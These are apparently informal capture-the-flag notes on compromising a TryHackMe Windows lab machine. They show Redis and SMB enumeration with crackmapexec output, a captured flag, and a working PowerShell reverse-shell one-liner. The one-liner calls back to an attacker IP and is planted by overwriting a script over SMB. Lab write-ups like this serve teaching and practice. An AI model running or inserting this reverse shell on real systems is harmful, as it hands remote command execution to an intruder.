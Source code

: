 I think we have got one key but have to enumerate some more as we have to find system.txt 
or we don't have permission from the terminal

https://github.com/n0b0dyCN/redis-rogue-server

not able to get the reverse shell using this technique
f_d58c1999119dcb9ea907415a6836d9f04c2512c2
THM{3eb176aee96432d5b100bc93580b291e}

There's a twist in the story as i run the crackmapexec on the smb port and volla got something
![[Pasted image 20230916173043.png]]

```
[*] Copying default configuration file
SMB         10.10.72.213    445    VULNNET-BC3TCK1  [*] Windows 10.0 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False)

```
We got something juicy here that's the name of the domain 
name:VULNNET-BC3TCK1
domain:vulnnet.local

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

Will upload our edited file with Put command
smb: \> put PurgeIrrelevantData_1826.ps1
and to get out from the more we have to press q twice


And to run the above file will fire off
This is the code that we have updated in the .ps1 and note one thing we have removed 
```
$client = New-Object System.Net.Sockets.TCPClient('10.8.167.78',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![[Pasted image 20230917193054.png]]

Whoooooooooo-Hoooooooooooooooooo got the shell 
![[Pasted image 20230917193235.png]]
